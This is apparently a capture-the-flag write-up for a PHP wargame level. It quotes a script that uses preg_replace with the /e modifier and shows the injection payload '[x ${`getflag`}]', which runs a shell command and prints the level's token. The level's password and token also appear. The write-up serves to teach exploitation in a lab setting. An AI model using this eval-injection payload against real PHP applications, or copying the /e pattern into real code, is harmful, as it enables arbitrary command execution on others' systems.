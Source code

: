 `su level06 -> viuaaale9huek52boumoomioc`

We have a file named level06.php:

```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

This php script seems to read a file, replace some regular expression found in it with the result of the y function.

This script use preg_replace with the 'e' option which is a vulnerability.

We found on the internet that the /e modifier in the regular expression will cause PHP preg_replace() to eval our input matching the regex, in our case '[x .]', so we will write our code in place of the dot.

Using a second exploit, abusing the variable variables, PHP will execute what's written in ${}, thinking that `getflag` is a variable name, executing the function.

```bash
$ echo '[x ${`getflag`}]' > /tmp/flag06
$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
